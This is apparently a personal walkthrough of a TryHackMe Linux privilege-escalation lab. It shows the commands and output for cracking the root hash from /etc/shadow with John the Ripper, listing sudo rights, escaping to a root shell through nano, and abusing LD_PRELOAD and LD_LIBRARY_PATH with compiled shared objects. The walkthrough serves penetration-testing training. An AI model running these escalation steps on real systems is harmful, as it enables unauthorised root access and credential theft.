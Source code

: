 This is a walkthrough with majority of the room guiding, so i will only list down my thought processes and methodologies, as well as anything I do differently

Authenticated with the given credentials via SSH. 
Ran the `id` command to obtain the following output: 
```console
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
user@debian:~$ 
```

checked the /etc/shadow file for the root user's password and cracked it with JtR.
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/linux_PE]
└─$ john root.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)     
1g 0:00:00:00 DONE (2024-01-14 17:42) 1.162g/s 1637p/s 1637c/s 1637C/s cuties..tagged
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
checked the sudo permissions of the user:
```console
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
user@debian:~$ 

```
I used the exploit for `nano` that I found on [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo)
	Was able to get a root shell
```console
  sh-4.1# 
```

From `sudo -l` we can see the environment variables that `sudo` inherits under `env_keep`:
```console
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```
created and compiled a shared object and inserted its path into the `LD_PRELOAD` variable while running service that allows `sudo` permissions, such as `nmap`
```console
user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so nmap
root@debian:/home/user# 
```
performed the following for the apache2 service, since there is not exploit for it on GTFOBins: 
```console
ldd /usr/sbin/apache2
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```